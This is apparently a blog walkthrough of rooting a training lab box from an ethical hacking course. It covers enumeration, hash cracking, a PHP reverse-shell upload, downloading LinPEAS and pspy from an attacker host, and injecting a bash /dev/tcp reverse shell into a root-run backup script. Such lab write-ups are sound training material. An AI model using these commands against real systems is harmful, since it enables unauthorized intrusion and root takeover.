

# Rooting the Academy Box: A Practical Ethical Hacking Walkthrough

In this blog post, I'll walk you through the process of rooting the Academy box from the TCM Academy's Practical Ethical Hacker course. The box was designed to test your skills in directory busting, FTP exploration, PHP webshell uploads, and Linux privilege escalation.

## Attack Path Overview
1. Initial enumeration reveals FTP, HTTP, and SSH services
2. Anonymous FTP access provides crucial student registration information
3. Web application discovered with student portal login
4. File upload vulnerability in student profile section
5. Privilege escalation through periodic backup script

### Network Topology



## Initial Enumeration

Starting with a thorough nmap scan to identify open ports and services:

```bash
nmap -p- -A -T4 192.168.17.136 -oN map.txt
```

The scan revealed these services:
* FTP (21) - vsftp 3.0.3
* HTTP (80) - Apache httpd 2.4.38 (Debian)
* SSH (22) - OpenSSH 7.9p1


From this, I identified two primary attack vectors to explore: the FTP service and the web server running on port 80.

## FTP Enumeration

I began by connecting to the FTP service using anonymous login:

```bash
ftp 192.168.17.136
ls
```


Once connected, I discovered a file named note.txt. I downloaded and examined it:

```bash
get note.txt
cat note.txt
```


The note contained information about a student registration database and included a password hash. Using hash-identifier, I determined it was MD5:

```bash
hash-identifier 
```


I saved the hash and used hashcat to crack it:

```bash
gedit hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 
```


## Web Application Discovery

Initial web server check revealed a default Apache page. Moving to directory enumeration:

```bash
http://192.168.17.136/robots.txt
```


Checking page source:
```bash
right-click > view page source
```


I performed thorough directory enumeration:

```bash
dirb http://192.168.17.136
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.17.136/FUZZ
```


Two interesting paths were discovered:
- /phpmyadmin
- /academy

## Gaining Initial Access

Using the previously obtained credentials on the academy login page:


## Exploiting File Upload

Located a photo upload feature in the profile section:


Testing confirmed uploads were stored at:
```bash
/academy/studentphoto/flower.jpg
```


Preparing the PHP reverse shell:

```bash
nano reverse-shell.php
```


Setting up the listener:

```bash
nc -nvlp 1234
```


Uploading and executing the shell:


## Privilege Escalation

Using LINPEAS for initial enumeration:

```bash
mkdir transfers
cd transfers
wget http://192.168.17.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


LINPEAS revealed several interesting findings:
- A backup script in /home/grimmie
- MySQL credentials
- User "grimmie" with elevated privileges


Using the discovered credentials for SSH access:

```bash
ssh grimmie@192.168.17.136
```


Investigating user context:

```bash
sudo -l
history
cd /home/grimmie
ls
cat backup.sh
```


Using pspy to monitor processes:

```bash
wget http://192.168.17.134/pspy64
chmod +x pspy64
./pspy64
```


## Root Access

Modifying backup.sh to include a reverse shell:


```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


Waiting for script execution to gain root:


## Success - Root Access Achieved

```bash
whoami
cd /root
ls
cat flag.txt
```


## Tools Used
- nmap: Network scanning
- dirb/ffuf: Directory enumeration
- hashcat: Password cracking
- netcat: Reverse shell listener
- LINPEAS: Privilege escalation enumeration
- pspy: Process monitoring


